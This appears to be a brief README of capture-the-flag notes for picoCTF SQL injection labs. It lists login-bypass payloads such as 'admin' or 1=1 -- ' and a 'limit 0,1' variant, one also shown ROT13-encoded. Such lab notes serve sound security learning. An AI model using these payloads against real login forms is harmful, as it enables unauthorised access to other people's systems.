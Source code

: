 # NISRA_SQLi

## labs from picoCTF (0x0~0x3)
* lab1
```
admin' or 1=1 -- 
```

* lab2
    * OR is filtered.
```
admin' -- 
```

* lab3
    * limit
```
SELECT * FROM admin where password = '123'
```
```
' or 1=1 limit 0,1 -- 
' be 1=1 yvzvg 0,1 -- 
```


## TODO

* Turn lab 1~3 links into short links